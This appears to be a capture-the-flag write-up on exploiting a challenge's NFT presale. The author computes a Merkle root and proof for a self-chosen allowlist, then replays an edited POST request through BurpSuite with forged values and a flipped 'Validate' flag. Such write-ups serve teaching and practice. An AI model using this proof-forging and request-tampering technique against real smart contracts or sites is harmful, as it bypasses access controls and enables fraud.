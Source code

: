 ```yaml
---
sidebar_position: 3
---
```


# Exploit a Smart Contract

## Set up QPetabyte's Merkle Trees tool

```bash
git clone https://github.com/QPetabyte/Merkle_Trees
cd Merkle_Trees
docker build -t merkletrees .
docker run -it --rm --name=merkletrees merkletrees
```

### Setup merkle_tree.py script

This script needs a list of wallets to put on the allowlist in order to calculate the root value. My theory is that I put my wallet ID in as the first entry and then fill up with addresses found on the NFT gallery page: 

```python
# allowlist = ['0x1337133713371337133713371337133713371337','0x0000000000000000000000000000000000000000']

allowlist = [
    "0xB32428966dcDAF5F4C6715492EB1871971db1D9B",
    "0xa1861E96DeF10987E1793c8f77E811032069f8E9",
    "0xb9aA688bB7A1B085f307bf9a11790BFD24C5D5C2",
    "0xc249927fb81bde4eA7B9Dc9e4c9E6F503F147fe2",
    "0x8153e0E5cabC22545A1fe4d0149C2Fdc486A8ad8",
    "0x7F7cAA97b73fD38d6740e59C159428509eE00082",
    "0x214Fee463D58D21954e75bdD93c386414e71A985",
]
```

Then run this tool:

```bash
$ python3 merkle_tree_new.py 

Root: 0x6394202d86193e1238566ddbe62f3b193f9122f746b6c281a13096a2b41aaeed
"0x0eeb229810d8a228636f88aa5ca05da0dbdeef0724017e8a81d06102aeacd974,0x78f9dc3d11e163c5302eb40c168a191888654297aaacf51bcddd089879f7f4ea,0xce8e5c755c18839416c96c002602346ba00220d2c35d77a674c7145a230419c5"
```

### HTTP Post validate adress on list 

I used BurpSuite proxy for this and Repated the sniffed POST request once edited with correct values

```python
{
	"WalletID":"0xB32428966dcDAF5F4C6715492EB1871971db1D9B",
	"Root":"0x6394202d86193e1238566ddbe62f3b193f9122f746b6c281a13096a2b41aaeed",
	"Proof": "0x0eeb229810d8a228636f88aa5ca05da0dbdeef0724017e8a81d06102aeacd974,0x78f9dc3d11e163c5302eb40c168a191888654297aaacf51bcddd089879f7f4ea,0xce8e5c755c18839416c96c002602346ba00220d2c35d77a674c7145a230419c5",
	"Validate":"true",
	"Session":"f813731a-dd84-4188-ae18-df23149cdbc2"
}
```

Got the following feedback from server

```python
{"Response": "You're on the list and good to go! Now... BUY A SPORC!"}
```

### Prepaying 

![Teller machine](/img/burning-ring/smart-contract-1.png)

![Teller menu](/img/burning-ring/smart-contract-2.png)

![Preparing payment](/img/burning-ring/smart-contract-3.png)

![Payment done](/img/burning-ring/smart-contract-4.png)

### Paying for NFT

Reusing the HTTP POST request as used in "HTTP Post validate address on list", but altering parameter "Validate" to "false" (still using BurpSuite):

```python
{
	"WalletID":"0xB32428966dcDAF5F4C6715492EB1871971db1D9B",
	"Root":"0x6394202d86193e1238566ddbe62f3b193f9122f746b6c281a13096a2b41aaeed",
	"Proof": "0x0eeb229810d8a228636f88aa5ca05da0dbdeef0724017e8a81d06102aeacd974,0x78f9dc3d11e163c5302eb40c168a191888654297aaacf51bcddd089879f7f4ea,0xce8e5c755c18839416c96c002602346ba00220d2c35d77a674c7145a230419c5",
	"Validate":"false",
	"Session":"f813731a-dd84-4188-ae18-df23149cdbc2"
}
```

Response:

```python
{
	"Response": "Success! You are now the proud owner of BSRS Token #000234. You can find more information at https://boredsporcrowboatsociety.com/TOKENS/BSRS234, or check it out in the gallery!<br>Transaction: 0x4cd5d6458d1c1a430c07e410a58f79d660125ff8f2e9ab2032aa9be2112ad6b3, Block: 69095<br><br>Remember: Just like we planned, tell everyone you know to <u><em>BUY A BoredSporc</em></u>.<br>When general sales start, and the humans start buying them up, the prices will skyrocket, and we all sell at once!<br><br>The market will tank, but we'll all be rich!!!"}
```
